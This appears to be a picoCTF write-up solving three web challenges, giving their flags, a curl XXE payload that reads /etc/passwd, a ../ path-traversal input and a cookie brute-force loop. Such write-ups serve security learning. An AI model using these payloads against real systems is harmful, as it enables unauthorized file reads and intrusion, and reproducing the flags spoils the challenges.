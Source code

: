 # SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`

curl goes brrr this time.

### Devtools

clicking the view shows xml requests being sent. I remeber something about xml based attacks and a quickt google search turns up XXE

The hardest thing here is whether or not to use burpsuite or curl.

Quickly impliment it in curl (copy to curl in devtools is sooo goood) -
```sh
curl 'http://saturn.picoctf.net:59513/data' \
  -H 'Accept: */*' \
  -H 'Content-Type: application/xml' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
  --insecure
```
aaand that's it. Really. nothing more. almost disappointing.

- Sources:
https://portswigger.net/web-security/xxe

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

the description says that absolute paths dont work, so do a relative path of `../../../flag.txt`.
Sub 1 min for this lol.

# Cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`

Figure out that the cookie value changes whenever you put in a valid string (as initally given on the search as a suggestion), copy as curl from network tab
and then ask chatgpt for a bitta help with shell scripting as my typing speed sucks and me be lazy, leading us with -

```zsh
for i in {1..29}; do
  response=$(curl 'http://mercury.picoctf.net:54219/check' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    -H 'Cache-Control: max-age=0' \
    -H 'Connection: keep-alive' \
    -H "Cookie: name=$i" \
    -H 'Upgrade-Insecure-Requests: 1' \
    --insecure)

  if [[ $response == *"picoCTF{"* ]]; then
    echo "Flag found: $response"
    break
  fi
done
```

which works perfectly.
